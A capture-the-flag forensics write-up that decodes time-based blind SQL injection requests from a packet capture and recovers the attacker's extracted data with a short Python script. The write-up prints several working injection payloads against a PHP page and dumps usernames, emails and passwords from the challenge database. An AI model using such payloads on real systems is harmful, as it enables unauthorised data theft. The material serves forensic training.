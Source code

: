 ## <mark style="color:blue;">**T1M3**</mark>

```
An anonymous Script Kiddie recently used many hacking tools to break into different websites to sabotage it and today my server was his victim. 
Please help me analyze what data he got.
```

Opened up the pcap file, I noticed there was some strange URL. Filtered the file:

![](https://user-images.githubusercontent.com/89141562/201655968-028f067c-f256-4048-9555-34905d13c3e3.png)

Decode those URLs:

```
...
/dashboard.php?id=1 AND (SELECT 2460 FROM (SELECT(SLEEP(2-(IF(ORD(MID((SELECT IFNULL(CAST(username AS NCHAR),0x20) FROM myDB.users ORDER BY id LIMIT 4,1),3,1))!=111,0,2)))))pFUv)

/dashboard.php?id=1 AND (SELECT 2460 FROM (SELECT(SLEEP(2-(IF(ORD(MID((SELECT IFNULL(CAST(username AS NCHAR),0x20) FROM myDB.users ORDER BY id LIMIT 4,1),4,1))>48,0,2)))))pFUv)

/dashboard.php?id=1 AND (SELECT 2460 FROM (SELECT(SLEEP(2-(IF(ORD(MID((SELECT IFNULL(CAST(username AS NCHAR),0x20) FROM myDB.users ORDER BY id LIMIT 4,1),4,1))>1,0,2)))))pFUv)
```

There will be nothing suspicious if you take a quick look, but there is! Can you see those operations like `>, =, !=`? That's the thing we need. There're a lots of `>` or `=`, but <mark style="color:yellow;">`!=`</mark> is less. I decided to extract the contents following after this operation by that simple script.

```py
from urllib.parse import unquote
lst = []
f = open('test.txt', 'r').readlines()
for i in f:
    decode = unquote(i)
    if '!=' not in decode:
        data = decode.strip(decode)
    else:
        data = decode.split("!=")[-1].split(",")[0]
    if data.isnumeric():
        lst.append(data)
for i in lst:
    print(chr(int(i)), end="")
```

Tada\~

```
┌──(kali㉿devilmachine)-[/mnt/d/WSL_LAB/Workplace/isitdtu]
└─$ python script.py
3innformation_schemaperformance_schemamyDB1users04emailidpasswordusername5admin@uwu.com1admin@adminadminnguyendt@uwu.com2ISITDTU{W3llC0M3_T0_ISITDTU_2@22}to^happy@uwu.com3abc#123sangngocjorosensei@uwu.com4123321yugeiego@uwu.com528102003ego
```
